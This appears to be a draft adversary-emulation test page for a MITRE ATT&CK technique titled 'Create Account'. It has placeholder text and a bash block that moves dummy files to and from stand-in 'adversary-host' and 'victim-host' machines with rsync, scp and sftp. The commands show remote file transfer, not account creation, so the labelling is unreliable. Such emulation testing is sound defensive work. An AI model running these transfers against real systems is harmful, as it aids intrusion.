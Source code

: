 # T1234 - Create Account
MITRE ATT&CK Technique: [T1234](https://attack.mitre.org/wiki/Technique/T1234)


- [Atomic Test #1 - xxxx](#atomic-test-1---xxxx)


## Atomic Test #1 - xxxx
xxxx

**Supported Platforms:** linux, macos


#### Run it with `bash`!
```
### TODO: Not sure how to handle commands that need to be run on multiple systems

# Adversary System Configuration
# Ensure SSH access has been configured for an adversary account
echo "This file transferred by scp" > /tmp/adversary-scp
echo "This file transferred by sftp" > /tmp/adversary-sftp
mkdir /tmp/adversary-rsync
cd /tmp/adversary-rsync
touch a b c d e f g

# Victim System Configuration
# Ensure SSH access has been configured for a victim account
# Ensure write access for victim account to this directory
mkdir /tmp/victim-files
cd /tmp/victim-files

# Push files to victim using rsync
rsync -r /tmp/adversary-rsync/ victim@victim-host:/tmp/victim-files/

# Pull files from adversary using rsync
rsync -r adversary@adversary-host:/tmp/adversary-rsync/ /tmp/victim-files/

# Push files to victim using scp
scp /tmp/adversary-scp victim@victim-host:/tmp/victim-files/

# Pull file from adversary using scp
scp adversary@adversary-host:/tmp/adversary-scp /tmp/victim-files/scp-file

# Push files to victim using sftp
sftp victim@victim-host:/tmp/victim-files/ <<< $'put /tmp/adversary-sftp'

# Pull file from adversary using sftp
sftp adversary@adversary-host:/tmp/adversary-sftp /tmp/victim-files/sftp-file

```



